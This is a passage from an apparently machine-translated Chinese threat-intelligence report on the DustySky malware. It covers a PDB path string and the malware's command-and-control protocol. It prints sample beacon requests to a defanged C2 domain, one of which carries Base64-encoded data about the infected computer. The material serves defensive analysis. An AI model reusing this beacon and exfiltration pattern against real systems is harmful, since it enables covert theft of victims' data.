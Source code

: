 ## pdb分析

DustySky示例中的pdb字符串结构如下：

b：\ World-2015 \ IL \ Working Tools \ 2015-12-27 NeD Ver 9 Rand  -  192.169.6.199 \ NeD Worm \ obj \ x86 \ Release \ MusicLogs.pdb

来自23个样本的pdb字符串显示在“附录B  - 指标”中。 在下表中，我们提供了包含pdb字符串的文件夹和文件名的细分，以反映DustySky自2015年5月首次发布以来的持续开发周期。

<img src = "Operation DustySky_18.png" width = 80%>

# 指挥与控制沟通

## 交通示例

以下是与命令和控制服务器通信的示例（标识符已被更改）。

DustySky有两个硬编码的命令和控制服务器域。 它首先通过向TEST.php或index.php发送GET请求来检查第一个是否处于活动状态，期望“OK”作为响应。 如果没有收到确定，它将尝试第二个域。

<img src = "Operation DustySky_19.png" width = 80%>

例如，这是对index.php的初始GET请求：

```shell
    GET /index.php HTTP/1.1
    Host: facetoo.co[.]vu
    Connection: Keep-Alive
```

服务器回复:

```shell
    HTTP/1.1 200 OK
    Date: Sun, 06 Sep 2015 19:52:49 GMT
    Server: Apache/2.2.15 (CentOS)
    X-Powered-By: PHP/5.3.3
    Content-Length: 2
    Connection: close
    Content-Type: text/html; charset=UTF-8
    
    OK
```

接下来，发送GET请求，其中包含有关受感染计算机的信息，如Base64参数：

```shell
    GET
    /IOS.php?Pn=9TbmRvd3KTxpbmRvd3icj4&fr=&GR=RmFjZUJvb2soSU9TKTxicj4gMjAxNS
    0wOC0yNA&com=IDxicj4gIDxicj4g&ID=386578203222222738119472812481673914678
    &o=TWljcm9zb2Z0IFdpbmRvd3MgNyBQcm9mZXNzaW9uYWwg&ho=ZmFjZXRvby5jby52dQ==&
    av=&v=501P HTTP/1.1
    User-Agent: 386578203222222738119472812481673914678
    Host: facetoo.co[.]vu
```

